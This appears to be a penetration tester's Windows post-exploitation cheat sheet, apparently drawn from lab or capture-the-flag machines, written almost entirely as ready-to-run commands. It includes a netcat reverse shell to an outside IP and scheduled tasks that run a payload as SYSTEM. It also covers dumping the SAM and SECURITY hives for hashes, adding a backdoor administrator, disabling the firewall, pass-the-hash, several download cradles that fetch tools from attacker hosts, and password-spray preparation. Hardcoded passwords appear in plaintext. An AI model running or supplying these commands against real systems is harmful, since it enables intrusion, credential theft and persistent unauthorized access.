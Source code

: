 ### Runas Powershell
https://stackoverflow.com/questions/28989750/running-powershell-as-another-user-and-launching-a-script
```
$username = 'user'
$password = 'password'

$securePassword = ConvertTo-SecureString $password -AsPlainText -Force
$credential = New-Object System.Management.Automation.PSCredential $username, $securePassword
Start-Process Notepad.exe -Credential $credential
```

### Runas cmd
```
runas /user:Administrator "c:\test\nc.exe 192.168.49.186 53 -e cmd.exe" < password.txt
```

### Runas with Scheduled Task in Powershell
```
$pw = ConvertTo-SecureString '+9B1w$XVK!qR1c' -AsPlainText -Force
$creds = New-Object System.Management.Automation.PSCredential ("Administrator", $pw)

Invoke-Command -Computer hutchdc -ScriptBlock { schtasks /create /sc onstart /tn shell /tr C:\test\bad.exe /ru SYSTEM } -Credential $creds

Invoke-Command -Computer hutchdc -ScriptBlock { schtasks /run /tn shell } -Credential $creds
```

### Runas with Scheduled Task in cmd
```
schtasks /create /sc MINUTE /tn shell /tr C:\test\bad.exe /ru Administrator /rp #8E)[,m63d8juk
schtasks /run /tn shell
```

### Dump hashes
````
reg save hklm\sam .\sam
reg save hklm\system .\system
reg save hklm\security .\security

secretsdump.py -sam sam -system system -security security LOCAL > hashes.txt
````
### Add RDP user
````
net user hacker hacker123 /add
net localgroup Administrators hacker /add
net localgroup "Remote Desktop Users" hacker /ADD
````
### Turn off firewall 
````
NetSh Advfirewall set allprofiles state off
````

#### Pass the hash
````
pth-winexe -U JEEVES/administrator%aad3b43XXXXXXXX35b51404ee:e0fb1fb857XXXXXXXX238cb
e81fe00 //10.129.26.210 cmd.exe

````


#### Ping test blind rce
```sh
C:\Windows\System32\cmd.exe /c ping 10.10.14.27
# on linux box: 
tcpdump -i tun0 icmp
```


#### Ping test blind rce like above check if x64 powershell exists
```sh
C:\Windows\SysNative\WindowsPowerShell\v1.0\powershell.exe ping 10.10.14.27
```

#### Download files
```bash
certutil.exe -urlcache -split -f http://10.10.14.10:8000/nc64.exe C:\\Users\\Public\\nc64.exe

powershell -c "(new-object System.Net.WebClient).DownloadFile('http:/
/10.11.0.4/wget.exe','C:\Users\admin\Desktop\wget.exe')"

powershell iwr -uri http://10.10.16.97:8000/chisel.exe -outfile ch.exe # also works in PS ConstrainLanguageMode

expand http://10.10.14.10:8000/watson.exe C:\\Users\\Public\\watson.exe

bitsadmin /transfer debjob /download /priority normal http://10.10.14.10:8000/watson.exe C:\Users\\Public\watson.exe

```

#### md5checksum
```
certutil.exe -hashfile Taihou64.exe MD5
```

#### Alternate Data streams 
````
dir /R file.txt - to check 
expand hm.txt:root.txt root.txt
powershell -command " Get-Content C:\ADS\1.txt -Stream file.exe -Raw"


````

#### List directory permissions (win server 2003)
```sh
icacls c:\*. /C
```


#### List alternate data stream files
```sh
dir /r
```

#### Mount windows account share using cifs, "ACCT here is account share name"
```bash
sudo mount -t cifs -o username=Finance //10.1.1.1/ACCT /mnt/win_share/
```

#### Mount vhd file from share
```bash
sudo guestmount --add 9b9cfbc4-369e-11e9-a17c-806e6f6e6963.vhd --inspector -ro -v /path/to/mount/directory
```



#### Dump password policy to prepare wordlist for password spray if smb null authentication allows domain enumeration.
```sh
crackmapexec smb 10.10.10.161 --pass-pol -u '' -p ''
```
#### Check account lock policy before password spraying smb
```bash
crackmapexec smb 10.10.10.123 --pass-pol
```

